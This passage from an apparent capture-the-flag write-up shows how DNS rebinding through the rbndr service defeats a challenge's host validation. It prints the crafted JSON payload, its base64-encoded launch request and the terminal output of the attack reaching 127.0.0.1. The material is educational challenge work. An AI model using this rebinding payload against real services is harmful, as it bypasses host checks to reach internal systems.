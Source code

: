 Sounds perfect! The [rbndr](https://github.com/taviso/rbndr) project can be used for performing DNS Rebinding attacks. They have an example address in the readme, `7f000001.c0a80001.rbndr.us`, which will randomly respond to DNS requests by saying its address is either `127.0.0.1` or `192.168.0.1`. The TTL is very short to force the server to constantly refetch the IP address of the domain. The `192.168.0.1` address is allowed by the Grinch network, but `127.0.0.1` is supposed to be rejected. With some luck, we can have this server return the allowed address when the host validation runs, and then the local address by the time the botnet attack wants to start. 

I crafted the following payload with the rbndr address,
`{"target":"7f000001.c0a80001.rbndr.us","hash":"de9d82d4ae9a61660701e7e1844ea643"}`, which maps to this request: 
`/attack-box/launch?payload=eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsImhhc2giOiJkZTlkODJkNGFlOWE2MTY2MDcwMWU3ZTE4NDRlYTY0MyJ9`

After running that exploit a couple times until the DNS resolutions lined up properly, I was able to get the following output:

```
grinch@attackbox:~/tools$ ./ddos --load fc007b100f6745bae362a35918c6a102.target
Setting Target Information
Getting Host Information for: 7f000001.c0a80001.rbndr.us
Host resolves to 192.168.0.1
Spinning up botnet
Launching attack against: 7f000001.c0a80001.rbndr.us / 127.0.0.1
No Response from attack server, retrying...
No Response from attack server, retrying...
No Response from attack server, retrying...
```
Suddenly the page redirected:

<img src="images/12-completed.png">
